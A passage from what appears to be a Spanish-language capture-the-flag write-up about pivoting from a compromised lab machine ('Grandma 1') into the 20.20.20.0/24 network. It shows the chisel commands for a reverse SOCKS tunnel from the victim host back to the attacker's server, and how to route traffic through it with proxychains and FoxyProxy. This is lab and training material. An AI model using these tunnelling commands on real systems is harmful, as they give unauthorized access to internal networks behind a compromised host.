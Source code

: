 # Pivoting Grandma 1

<br>

Para poder tener conexión con la interfaz `20.20.20.0/24` desde nuestra máquina, debemos conectar la Grandma 1 a nuestro servidor de chisel de la siguiente manera:

```python 
// Servidor chisel
❯ ./chisel_1.10.0_linux_amd64 server --reverse -p 1234
2024/09/13 13:14:19 server: Reverse tunnelling enabled
2024/09/13 13:14:19 server: Fingerprint dnIcv9oRZ36Q9v8WKTqa3fYrBjJ5yzoNHOszO5Wa/O8=
2024/09/13 13:14:19 server: Listening on http://0.0.0.0:1234
```

```python
// Conexión a nuestro servidor
./chisel_1.10.0_linux_amd64 client 172.17.0.1:1234 R:socks & disown
[1] 124
drzunder@7d7902320dce:~$ 2024/09/13 16:55:25 client: Connecting to ws://172.17.0.1:1234
```

Si miramos en nuestro servidor de chisel, vemos que la conexión se establece correctamente 

![Image 5](/assets/images/grandma/chisel1.png) 

Añadimos el proxy creado a nuestro `/etc/proxychains.conf` y creamos el proxy en `foxyproxy` para poder acceder al posible servicio web de la siguiente máquina. 

![Image 6](/assets/images/grandma/plist1.png) 

![Image 7](/assets/images/grandma/fp1.png)
